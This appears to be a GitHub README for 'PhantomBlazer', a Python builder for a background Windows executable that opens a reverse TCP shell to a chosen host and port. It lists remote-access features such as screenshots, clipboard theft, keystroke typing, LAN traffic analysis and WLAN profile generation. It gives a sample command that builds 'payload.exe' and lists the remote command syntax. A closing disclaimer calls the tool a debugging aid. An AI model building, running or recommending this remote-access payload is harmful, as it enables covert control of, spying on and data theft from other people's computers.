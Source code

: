  # PhantomBlazer

**PhantomBlazer is a Python-based framework that creates an executable file with various parameters. It allows users to perform a reverse TCP connection and execute cmd commands.**
## Features

- [x] Reverse TCP connection
- [x] Execute cmd commands
- [x] Collect OS info
- [x] Set clipboard text
- [x] Get clipboard text
- [x] Take screenshot
- [x] Start file server
- [x] Analyze LAN traffic
- [x] Type text
- [x] Download URL
- [x] Open link
- [x] Generate WLAN profile

## Usage

PhantomBlazer can be executed with the following parameters:
```
    --lhost/-lh: The local host IP address
    --lport/-lp: The local port number
    --output/-o: The output file name
```
> Example: ``` $python3 phantomblazer.py --lhost 192.168.0.1 --lport 8080 --output payload.exe```

### Inbuilt ommands can be executed using the following syntax:
```
    collect-os-info
    set clipboard <text>
    get clipboard
    take screenshot
    start file server
    analyze lan traffic
    type <text>
    download <url>
    open link <link>
    generate wlan profile *
    generate wlan profile <name>
```
## DISCLAIMER:
This tool is intended for legal and ethical use only. The creator of this tool is not responsible for any illegal or unethical use of this tool.

The tool creates a .exe file which runs as a background and creates a reverse TCP connection, allowing for remote command execution. This tool is intended for debugging purposes and should not be used to gain unauthorized access to systems.

Please use this tool at your own risk and with the appropriate permissions from the system owners. Any actions taken with this tool are the sole responsibility of the user.

By using this tool, you agree to the <a href = "https://github.com/devsdenepal/PhantomBlitz/blob/main/terms-and-conditions.md">```terms and conditions```</a> outlined above and acknowledge that any misuse of this tool is strictly prohibited.
